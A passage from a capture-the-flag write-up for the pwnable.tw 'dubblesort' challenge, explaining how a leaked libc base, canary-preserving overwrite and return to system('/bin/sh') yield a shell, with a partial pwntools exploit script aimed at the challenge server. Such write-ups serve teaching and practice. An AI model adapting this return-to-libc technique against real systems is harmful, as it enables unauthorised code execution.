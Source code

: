 With the base address, it is *easy* to find the real address of `'/bin/sh'` and `<system>`. We will overwrite the return address of `<main>` with the real address of `<system>`. The real address of `"/bin/sh"` comes 2 DWORDS after that.

By the way, you run the exploit script below, you will notice that the real addresses of `'/bin/sh'` and `<system>` are greater than the stack canary's value. By overwriting all the values after the stack canary with these real addresses, and those before with zeros, we are able to ensure that the stack canary will not be triggered. The real address of  `'/bin/sh'` is greater than `<system>`, so there won't be a problem either when we return to `system('/bin/sh')` from `<main>`.
```
---------------------------------
| system addr (main ret addr)	| esp + 0x90
---------------------------------
| system ret addr		| esp + 0x98
---------------------------------
| '/bin/sh' addr		| esp + 0x9c
---------------------------------
```
### The entire exploit script

```
from pwn import *

MY_NAME = "AAAABBBBCCCCDDDDEEEEFFFF"
HOW_MANY_NUM_TO_SORT = 35

elf = ELF('libc_32.so.6')

binsh_offset = next(elf.search('/bin/sh'))
system_offset = elf.symbols['system']


print "/bin/sh offset: " + hex(binsh_offset)
print "system offset: " + hex(system_offset)

#p = process('./dubblesort', env={'LD_PRELOAD':'./libc_32.so.6'})	# without LD_PRELOAD, the library won't be loaded into the executable, and the exploit won't work locally.
p = remote("chall.pwnable.tw", 10101)

p.recvuntil('What your name :')

p.sendline(MY_NAME)

p.recvuntil("\n")
leaked_addr = '\x00' + p.recv(3) 
alt_addr = leaked_addr[1:] + p.recv(1)

leaked_addr = u32(leaked_addr)
alt_addr = u32(alt_addr)
alt_addr = (alt_addr << 8) & 0xffffffff


leaked_addr_offset_from_base_addr = 0x1b0000
base_addr = leaked_addr - leaked_addr_offset_from_base_addr
print "Base address: " + hex(base_addr)
print "Leaked: " + hex(leaked_addr)
print "Alt: " + hex(alt_addr)



binsh_addr = binsh_offset + base_addr
system_addr = system_offset + base_addr

print "/bin/sh addr: " + hex(binsh_addr) + " (Int: " + str(binsh_addr) + " )"
```